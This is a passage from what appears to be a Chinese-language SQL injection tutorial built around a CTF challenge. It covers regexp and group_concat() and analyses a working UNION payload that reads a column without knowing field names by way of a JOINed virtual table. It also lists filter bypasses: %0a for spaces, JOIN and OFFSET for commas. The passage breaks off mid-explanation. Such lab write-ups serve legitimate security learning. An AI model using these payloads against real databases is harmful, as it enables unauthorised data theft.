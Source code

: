 2、where子句之后跟上|1或|0也能出数据，但要是跟上|大于一或小于零的数就出不了数据

<br>

**0x02   regexp的使用**

****

很简单，正则匹配，匹配对象必须是单行单列，或者说是字符串。基本语法：

```
select (select语句) regexp '正则'
```

意思是将括号内的查询的结果集尝试与给出的正则匹配，如果配对成功则返回1，配对失败返回0。

<br>

**0x03   group_concat()的使用**

****

将一列数据进行拼接，非常便利的函数,一般与union一起使用，就像本节的第一小节给出的最后一个例子一样。

<br>

**0x04   利用虚拟表在不知道字段名的情况下出数据**

****

先上一道ctf题的payload进行分析：



```
-1 UNION ALL 
SELECT * FROM (
    (SELECT 1)a JOIN (
        SELECT F.4 from (
            SELECT * FROM (SELECT 1)u JOIN (SELECT 2)i JOIN (SELECT 3)o JOIN (SELECT 4)r 
            UNION 
            SELECT * FROM NEWS LIMIT 1 OFFSET 4
        )F
    )b 
JOIN (SELECT 3)c JOIN (SELECT 4)d
)
```

正常版：

```
-1 UNION ALL SELECT * FROM ((SELECT 1)a JOIN (SELECT F.4 from (SELECT * FROM (SELECT 1)u JOIN (SELECT 2)i JOIN (SELECT 3)o JOIN (SELECT 4)r UNION SELECT * FROM NEWS LIMIT 1 OFFSET 4)F)b JOIN (SELECT 3)c JOIN (SELECT 4)d)
```

这本是一道ctf题，前面估计是where后面的子句。这道题过滤了三样东西：1、空格，2、逗号，3、字段名

这里不详细说绕过，方法很多，空格利用%0a绕过，union指令中的逗号利用join绕过，limit指令中的逗号利用offset绕过。

这里因为payload中不能出现字段名，因此我们创建了一个与所查表字段数相同的虚拟表并对其并将其查询结果与前面的查询union起来。具体来说是这样：
